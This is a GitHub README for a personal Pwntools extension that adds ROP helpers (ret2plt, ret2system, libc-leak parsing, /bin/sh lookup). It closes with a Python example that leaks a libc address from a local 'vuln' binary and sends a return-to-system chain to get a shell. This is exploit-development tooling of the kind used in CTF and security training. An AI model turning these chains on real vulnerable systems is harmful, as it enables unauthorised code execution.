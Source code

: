 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions [ret2plt and ret2system](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/rop/rop.py#L1551-L1561) \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions [section_addr and find_bin_sh](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L1547-L1570), Edited [libc function](https://github.com/Hellsender01/Fast-Pwn/blob/0d1c9b91c55454a72c59462fc849d37dda887aa0/pwnlib/elf/elf.py#L715-L724) \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 2 functions [sendpayload](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L863-L872) and [recv_libc_leak](https://github.com/Hellsender01/Fast-Pwn/blob/caeda0f81931d33c9f56a5f0311afd8b20584c44/pwnlib/tubes/tube.py#L753-L765)

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

# Summary 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

### Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

# Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

